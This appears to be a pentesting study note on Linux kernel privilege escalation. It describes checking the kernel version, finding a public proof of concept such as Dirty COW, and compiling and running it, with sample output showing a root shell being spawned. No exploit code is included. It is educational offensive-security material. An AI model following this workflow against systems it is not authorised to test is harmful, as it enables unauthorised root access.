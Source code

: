 ### **Overview**

- _Kernel exploits_ allow **privilege escalation to root** by exploiting vulnerabilities in the Linux kernel.
- Common in environments with **legacy systems** or **unpatched kernels**.
- May require _minimal effort_ (download, compile, execute).
- Examples: **Dirty COW** (CVE-2016-5195), among many others.
- Always run with caution on **production systems** due to risk of system crashes or instability.

---

### **Exploit Workflow**

#### 1. **Check Kernel & OS Version**
```bash
uname -a
# Example Output:
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 GNU/Linux

cat /etc/lsb-release
# DISTRIB_ID=Ubuntu
# DISTRIB_RELEASE=16.04
# DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

#### 2. **Identify Suitable Exploit**

- Search for public PoC:  
    `"linux 4.4.0-116-generic exploit"`
- Verify compatibility of exploit with target kernel.

#### 3. **Transfer & Compile Exploit**
```bash
gcc kernel_exploit.c -o kernel_exploit
chmod +x kernel_exploit
```

#### 4. **Execute Exploit**
```bash
./kernel_exploit
# Example output:
# task_struct = ffff8800b71d7000
# uidptr = ffff8800b95ce544
# spawning root shell
```